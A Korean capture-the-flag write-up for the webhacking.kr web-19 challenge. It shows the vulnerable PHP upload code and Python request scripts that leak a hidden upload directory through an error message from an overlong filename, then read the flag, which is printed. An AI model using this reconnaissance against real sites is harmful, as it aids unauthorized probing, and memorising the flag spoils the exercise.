



# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

view-source를 클릭하면 파일 업로드 시 FLAG를 입력 후 저장하지만, $upload_dir를 알 수 가없다.

```php
... 생략 ...
<?php
  if(isset($_FILES['up']) && $_FILES['up']){
    $fn = $_FILES['up']['name'];
    $fn = str_replace(".","",$fn);
    $fn = str_replace("<","",$fn);
    $fn = str_replace(">","",$fn);
    $fn = str_replace("/","",$fn);

    $cp = $_FILES['up']['tmp_name'];
    copy($cp,"./{$upload_dir}/{$fn}");
    $f = @fopen("./{$upload_dir}/{$fn}","w");
    @fwrite($f,$flag);
    @fclose($f);
    echo("Done~");
  }
?>
... 생략 ...
```

아무거나 올려서 반응을 보자.



매우 긴 문자열을 넣어보면 $upload_dir의 값을 에러를 통해 알 수 있다.

```python
import requests

CHALLENGE   = 'https://webhacking.kr/challenge/web-19/'
SESSION_ID  = 'iojfbh0sobkvbtp5i4ftu52ti0'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'up':('a'*1000,'')}
req         = requests.post(CHALLENGE, headers=headers, files=files)
print(req.text)

[Output]
... 생략 ...
<b>Warning</b>:  copy(./4b0e87fef7b5e8ba83894970c9806042e5d6ec9a/
... 생략 ...
```

이제 적당한 이름의 파일을 업로드 후 오류를 통해 알아낸 폴더/파일에 접근하면 FLAG를 획득할 수 있다.

```python
import requests

CHALLENGE   = 'https://webhacking.kr/challenge/web-19/'
SESSION_ID  = 'iojfbh0sobkvbtp5i4ftu52ti0'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'up':('Hello_World','')}
req         = requests.post(CHALLENGE, headers=headers, files=files)

CHALLENGE   = 'https://webhacking.kr/challenge/web-19/'
SESSION_ID  = 'iojfbh0sobkvbtp5i4ftu52ti0'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
url         = CHALLENGE + '4b0e87fef7b5e8ba83894970c9806042e5d6ec9a/Hello_World'
req         = requests.get(url, headers=headers)
print(req.text)

[Output]
FLAG{error_msg_is_more_userful_than_you_think}
```

FLAG를 인증 후 점수를 획득하자.




# **FLAG**

**FLAG{error_msg_is_more_userful_than_you_think}**